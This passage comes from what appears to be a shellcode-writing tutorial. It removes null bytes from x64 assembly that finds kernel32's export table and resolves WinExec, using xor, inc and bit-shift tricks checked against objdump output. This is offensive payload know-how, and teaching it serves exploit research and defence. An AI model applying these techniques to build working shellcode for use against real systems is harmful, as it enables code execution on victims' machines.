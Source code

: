 **okay, on to the next offending culprit, this line:**
```nasm
ba 01 00 00 00          mov    $0x1,%edx
```
**I'm sure you already figured it out 😸  All we need to do is once more replace mov with xor:**
```nasm
xor rdx, rdx
inc rdx
```
**Now let's review objdump's output.  Once again, no zeros!**
```nasm
48 31 d2                xor    %rdx,%rdx
48 ff c2                inc    %rdx
```
**Here's the next two.  These are from `OrdinalLookup` and `OrdinalLookupSetup`.  Just delete these lines entirely.  These jumps aren't needed and were mainly used to help debug the code when I first wrote it.  There, that was easy huh?**
```nasm
78 00                   js     7b <OrdinalLookup>
78 00                   js     a5 <executeit>
```
**Alright, we're almost done!  We're in our `main` function at the top of the code now.  You can just delete this line:**
```nasm
eb 00                   jmp    59 <kernel32findfunction>
```
**These next two were the hardest for me to work out.  We need to retain the string terminator but we also don't want to have to deal with NULLs.**
```nasm
48 b8 57 69 6e 45 78    movabs $0x636578456e6957,%rax
65 63 00
```
We'll use a nice little Bitwise shiftleft and shiftright trick to 'operationally' add a zero after we've already committed our string to memory.  Here's what it looks like.  We'll use a **nop** as a placeholder for where the 00 would normally go:
```nasm
mov rax, 0x90636578456E6957           ;WinExec
shl rax, 0x8                          ;636578456E695700 <--notice how the 90 turns into a 00
shr rax, 0x8                          ;00636578456E6957 <-- now the nop has been replaced by a 0 but this null will NOT be present in our machine code / shellcode!
```
**And now let's review objdump's output.  Look ma, no NULLs!!!**
```nasm
48 c1 e0 08             shl    $0x8,%rax
48 c1 e8 08             shr    $0x8,%rax
50                      push   %rax
```
When we push rax, we'll be greeted by our familiar WinExec string and satisfy keeping a **null** without it being present in our shellcode:

![image](https://github.com/user-attachments/assets/160a2500-158a-4bc1-9c8a-b0776fa10864)

**Now, drum roll please.... 🥁  The final NULL!!**
```nasm
 8b 93 88 00 00 00       mov    0x88(%rbx),%edx
 ```
**Basically, we just need to move `[rbx+0x88]` hex value into `rdx`.  However, we can't exactly do it the way you would expect.  The 'simple' way generates nulls.  Here's what we'll need to do instead:**
```nasm
xor rcx, rcx                  ; Avoid null bytes from mov edx,[rbx+0x88] by using rcx register to add
add cx, 0x88ff                ; add to lower portion of register
shr rcx, 0x8                  ; shift right, which will remove the FF placeholder and leave the value we want: RCX = 0x88ff --> 0x88
mov edx, [rbx+rcx]            ; EDX = [&NewEXEHeader + Offset RVA ExportTable] = RVA ExportTable
```